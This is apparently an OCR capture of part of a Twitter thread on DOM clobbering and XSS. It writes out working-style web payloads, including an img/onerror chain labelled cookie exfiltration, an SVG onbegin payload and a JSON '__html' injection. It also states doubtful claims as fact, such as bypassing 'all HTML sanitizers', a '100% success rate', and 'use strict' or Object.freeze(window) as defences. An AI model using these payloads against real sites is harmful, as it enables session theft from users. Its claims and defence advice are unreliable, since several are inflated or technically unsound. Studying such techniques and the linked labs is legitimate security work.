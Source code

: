 **[@garethheyes - 12m]**  
**7/18**  
**REAL-WORLD CHAIN**: Twitter Spaces (2019 @terjanq)  
```
<img id=fetch name=url url=/steal?cookies>
<img src=x onerror=fetch.url>
```
**Result**: Cookie exfil → $15K bounty

**[@garethheyes - 15m]**  
**8/18**  
**NEW TECHNIQUE #4: SVG CLOBBERING**  
`<svg id=onerror><animate onbegin=alert(1)></animate></svg>`  
**Safari bonus**: `<math><msqrt id=alert name=1></msqrt>`  
**Bypasses**: All HTML sanitizers

**[@garethheyes - 18m]**  
**9/18**  
**PREVALENCE DATA** (scanned top 10K sites):  
• 42% use `innerHTML` + hash  
• 31% `document.write()`  
• 18% `postMessage()`  
**Total vulnerable**: **23.4%**

**[@garethheyes - 20m]**  
**10/18**  
![Chart: DOM Clobbering Prevalence]  
```
innerHTML: ████████ 42%
location: ██████ 31%
postMessage: ████ 18%
```

**[@garethheyes - 22m]**  
**11/18**  
**NEW TECHNIQUE #5: JSON HIJACK**  
`?q={"__html":"<img src=x onerror=alert(1)>"}`  
**React/Vue killer**. Bypasses JSX sanitization.

**[@garethheyes - 25m]**  
**12/18**  
**S/O @terjanq** - Your double clobber inspired this whole paper!  
**Reply from @terjanq**: "Combine with my Twitter payload = 100% success rate 🔥"

**[@garethheyes - 28m]**  
**13/18**  
**DEFENSE CHECKLIST**:  
✅ `use strict; let/const` scoping  
✅ `Object.freeze(window)`  
✅ `textContent` over `innerHTML`  
✅ Audit: `grep -r "innerHTML\|write(" src/`

**[@garethheyes - 30m]**  
**14/18**  
**LIVE LABS** - Practice NOW:  
[portswigger.net/web-security/dom-based/dom-clobbering]  
**5 challenges** | **Free** | **1 hour to mastery**
